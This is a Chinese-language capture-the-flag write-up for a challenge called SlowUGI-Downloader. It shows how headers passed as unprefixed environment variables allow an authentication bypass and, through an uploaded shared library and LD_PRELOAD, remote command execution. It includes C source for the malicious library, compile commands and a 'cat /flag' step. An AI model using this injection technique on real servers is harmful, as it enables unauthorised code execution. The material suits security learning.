






# SlowUGI-Downloader

## 题目描述

写个小的远程下载器，看看要不用 CGI 来写？

诶呀，CGI 太坏了，还要自己写参数解析，自己弄个 SlowUGI 吧！

SlowUGI: Slow Uncommon Gateway Interface (as opposed to FastCGI)

## 解题思路

题目已经给出了源代码，可以直接审查源代码寻找漏洞。

看到 `slowugi.py` 源码，不难发现存在以下漏洞:







Header 键值对没有添加前缀，直接转换成全大写作为环境变量传入到对应的 SlowUGI 应用。

再看到 `ugi-bin/login.ugi` 文件的认证逻辑:


可以看到这边的认证是对 Query (GET) 或者 Body (POST) 中的 `username` 和 `password` 参数与环境变量中的 `USERNAME` 和 `PASSWORD` 进行比对。

可以猜测此处可以通过控制 Header 中 `Username` 和 `Password` 的值来实现认证的绕过。

可通过发包验证上面的猜想是正确的:


服务器传回了 `Set-Cookie` 并且重定向到了 `/`。

使用相应 Cookie 访问根成功进入面板:



看到 `ugi-bin/fetch.ugi` 的逻辑:


由于这边 `wget` 可以从互联网上获取数据，并且存储路径可以确定 (`data/files/$file_id`)，所以我们这边可以构造一个共享库 (Shared Library)，通过控制 `LD_PRELOAD` 环境变量让 UGI 程序运行时加载上，实现 RCE (任意代码执行)。

看到附件给出的 Dockerfile 可以确认是 Alpine 环境:



我们需要使用 Alpine Linux 环境来编译我们的共享库。

根据 SlowUGI 的输出格式可以写出以下代码用于 RCE:

```c
#include <stddef.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

__attribute__((constructor)) void init() {
    const char* cmd = getenv("QUERY_CMD");

    char* argv[] = {"sh", "-c", (char*)cmd, NULL};
    char* envp[] = {NULL};

    printf("Status: 200\nContent-Type: text/plain\n\n");
    fflush(stdout);
    execve("/bin/sh", argv, envp);
}
```

保存到文件 `lib.c`

在 Alpine Linux 容器下通过以下指令配置编译环境:

```shell
apk update
apk add build-base
```

通过以下指令编译共享库:

```shell
gcc -o lib.so -Wall -Werror -O2 -fPIC -shared lib.c
```

> 关于 Docker 容器如何与宿主共享文件夹可以自行搜索了解。

直接通过面板获取 RCE 用的共享库:


这边以分配到的 ID `5d5b4a1716a9aab6` 为例进行演示。

任意选取一个可用的 UGI 应用，传入 `LD-Preload` Header，再通过 `cmd` Query 参数传入指令即可:


可以确认 RCE 成功。

执行 `cat /flag` 指令即可获得 Flag:


